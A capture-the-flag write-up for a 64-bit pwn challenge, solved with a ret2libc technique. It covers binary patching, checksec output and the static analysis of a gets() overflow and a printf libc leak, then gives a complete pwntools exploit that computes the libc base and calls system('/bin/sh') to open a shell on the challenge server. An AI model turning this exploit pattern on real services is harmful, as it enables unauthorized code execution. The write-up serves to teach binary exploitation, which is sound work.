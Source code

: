 ![img_1](https://github.com/user-attachments/assets/499ba486-0676-43cc-b694-dfff14924939) \
Solved by : Relster
# Technique : *Ret2libc*
 

## 1. Patch binary & Binary protection checking.
We're given 3 binaries from the challenge they are *chall*, *ld-2.27.so*, and *libc-2.27.so*. Now let's do a patching on the *chall* binary.
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```

Checking binary protection.
```bash
$ pwn checksec chall_patched 
[*] '/home/relster/Desktop/ctf/ehax/pwn/test/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
```


## 2. Analyze the binary statically & dynamically
Ghidra:\
![img_2](https://github.com/user-attachments/assets/9db167a3-a696-43d4-a445-f50d49ede350) \
Not much is happening here, the only main thing we need to pay attention is the *printf("%p",wctrans);* which is leaking a libc function to stdout and *gets((char \*)local_a8);* which lets us input more than the buffer could hold (overflow). From here we could tell that our exploit would implement ret2libc (return-to-libc) technique to achieve our goal which is popping a shell on remote machine.

PIE disabled is very helpful here because we can just grab our rop gadgets from the binary itself, below is the list of gadgets we'd use:\
```pop rdi; ret;``` <--- Popping the address of the string '/bin/sh\x00' to the RDI register.\
```ret;         ``` <--- Used for stack alignment purposes (since this is a 64bit binary).\
these 2 above would be enough to help us setup the exploit.

Noticed that PIE is disabled but here ASLR is enabled by default from our OS. Since ASLR randomizing base address of functions, then we'd have to use the leaked address at runtime to calculate the base address of *libc* in this case. If we got the base address of *libc* then address of function like *system()* would be easily obtain at runtime and we'd have to just do basic arithmetic of addresses here. The leaked address that we mention is *wctrans* as we see above in the *printf("%p",wctrans)*. Now we'd need the offset of *wctrans* to the *libc*'s base address, to obtain these offsets we can use *pwntools* we can also use *pwntools* to find the rop gadget that we need so we don't have to manually use *ropper*/*ROPgadget* to extract gadgets 1 by 1. One more thing to remember is the string '/bin/sh\x00' which we will need to pass it to *system()* where we can pop a shell. For obtaining the address of string '/bin/sh\x00' we can use method and function called *search()* and *next()*, more detail will be shown on the exploit. We will see the details below in the script.


## 3. Writing the exploit
We got 2 things to do here:
1. Find size from buffer to saved RBP.
2. Extract the leaked address from the binary and store it into a variable.

Let's find the offset first, this time we'll use gdb because it's straight forward (IMO).\
![img_3](https://github.com/user-attachments/assets/6359b582-65f3-48f2-849c-18af0013126e) \
Since there's no canary so we don't have to worry about it. Let's put our focus to the buffer size and saved RBP, we can see that 0xa0 in decimal is 160, don't forget the 8 bytes of RBP too. So our total junk payload would be 168 bytes, this means our RIP will start at 169th byte up to 176th byte.

For extracting the *wctrans* leaked address we'd use python's slicing technique, more detail can be seen on the exploit.

Below is the final exploit for this challenge:
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall_patched'
HOST = 'chall.ehax.tech'    # nc chall.ehax.tech 4269
PORT = 4269

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ======================================= #
'''
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
'''

offset = b'A' * 168 # RIP at 169th

### 1st Step == Preparing everything (gadgets, offset, etc) ###

# gadgets & symbols offset
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi'])[0]
wctrans_offset = libc.symbols['wctrans']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print(f"ret : {hex(ret)}")
print(f"rdi : {hex(pop_rdi)}")
print(f"wctrans : {hex(wctrans_offset)}")
print(f"system : {hex(system_offset)}")
print(f"binsh : {hex(binsh_offset)}")

### 2nd Step == Calculating base address of libc and calculating other functions' address ###

# leaked wctrans, libc base, system()
p.recvline()
out = p.recvuntil(b'0x7')
leaked_wctrans = int((b'0x7' + p.recv()[:11]).decode(), 16)
libc_base = leaked_wctrans - wctrans_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked_wctrans : {hex(leaked_wctrans)}")
print(f"libc_base : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

### 3rd Step == Build payload and send it off to remote target ###

payload = flat(
    offset,
    ret,
    pop_rdi,
    binsh,
    system
)
p.sendline(payload)

p.interactive()
p.close()

# NOTE:
# ret2libc
```


## 4. Run the exploit
Local:\
![Screenshot 2025-02-17 024958](https://github.com/user-attachments/assets/39d3e76a-6b0f-48f4-8314-0aa1331bcea1)

Remote:\
![Screenshot 2025-02-17 025227](https://github.com/user-attachments/assets/ecbb101b-a013-42ae-b68f-8001b9f38eaa)


## Keyword
ret2libc\
ASLR and PIE\
x86_64 calling convention\
Binary dependency (specific libc for specific offset)
